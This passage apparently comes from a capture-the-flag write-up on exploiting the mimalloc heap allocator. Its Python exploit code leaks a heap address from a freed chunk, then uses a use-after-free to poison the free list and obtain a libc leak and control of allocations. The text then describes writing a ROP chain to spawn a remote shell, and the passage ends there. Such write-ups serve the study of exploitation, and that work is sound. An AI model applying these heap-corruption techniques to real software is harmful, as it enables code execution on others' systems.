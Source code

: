 
## Getting Leaks

Getting a (mimalloc)**heap leak**  is pretty straightforward. Since mimalloc stores its free list as a linked list (with the next pointer placed right at the start of each freed chunk) `similar to glibc`, reading the freed chunk will leak a **heap address** directly.

```python
######################### heap leak ##########################
create(0)
edit(0,b'a'*100)
create(1)
free(0)
free(1)
look(1)

heap_leak = unpack(r.recv(6),'all')  
print(hex(heap_leak))
```

For a **libc leak**, we can use a technique similar to **tcache poisoning**. Mimalloc, just like tcache, keeps the linked list pointer at the start of every freed chunk. With a use-after-free bug, we can overwrite that pointer. 

At this point, we only have a **heap leak**, so the next move is to craft a **fake chunk** somewhere inside the mimalloc memory segment or pages itself. Remember, every mimalloc segment also contains a region reserved for **metadata**, which is read-write accessible.This metadata doesn’t just store allocator info — it also contains some **libc pointers**.

```python
################## leak libc address ###############################
edit(1,pack(heap_leak+0x5980a000160+6*8-0x5980a010080)) #overwriting the next pointer of local free list
 for i in range(31): #allocating 31 chunks
    create(2)
create(3) #fake chunk allocated on free list
look(3)
r.recv(6*8)
libc.address = unpack(r.recv(6),'all')-0x00007caf37884100+0x7caf3788c000
print(hex(libc.address))
```

To set things up for later exploitation, I allocated a chunk that sits directly on the free lists. Close to it in memory, there’s also a libc pointer. So by reading this chunk, we get two wins at once: a **libc leak** and **control of the free lists** (the Allocation Free List and the Local Free List).

![mod_mi-pica.png](/d1ff/doremi/1f52789d-8511-4251-9ba1-3639b4ed4b8d.png)

---

## Exploitation

So far, we’ve got both a **libc leak** and a **mimalloc heap leak**. On top of that, we managed to allocate a chunk right on the free list itself, which gives us **direct control over future allocations**. From here, there are multiple ways to spawn a shell on remote. The approach I used was to **write a ROP chain onto the stack**, so that when the `update` function returns, execution jumps straight into the ropchain.
